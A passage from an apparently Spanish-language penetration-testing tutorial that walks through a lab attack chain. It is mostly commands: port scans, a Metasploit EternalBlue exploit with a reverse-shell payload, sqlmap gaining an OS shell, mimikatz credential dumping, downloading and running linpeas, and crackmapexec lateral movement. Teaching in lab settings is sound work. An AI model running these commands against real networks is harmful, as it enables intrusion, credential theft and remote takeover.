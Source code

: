 ```bash
masscan 192.168.56.0/24 -p1-65535 --rate=5000
nmap -A -T5 192.168.56.101,192.168.56.102
```

💡 El uso combinado permite detección rápida y luego escaneo detallado.

---

## 7.5. Explotación Encadenada

### Ejemplo: Windows SMBv1 + Linux Web App Vulnerable

1. **Windows Server** – Exploitar SMBv1 (EternalBlue simulado):

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.56.101
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.56.10
exploit
```

2. **Linux Server** – Exploitar SQLi para obtener shell:

```bash
sqlmap -u "http://192.168.56.102/product.php?id=1" --dbs --os-shell
```

---

## 7.6. Escalada de Privilegios Creativa

En Windows con `mimikatz`:

```plaintext
privilege::debug
sekurlsa::logonpasswords
```

En Linux con `linpeas`:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh
```

---

## 7.7. Movimiento Lateral Masivo

Con `crackmapexec`:

```bash
crackmapexec smb 192.168.56.0/24 -u admin -p 'Password123!'
```
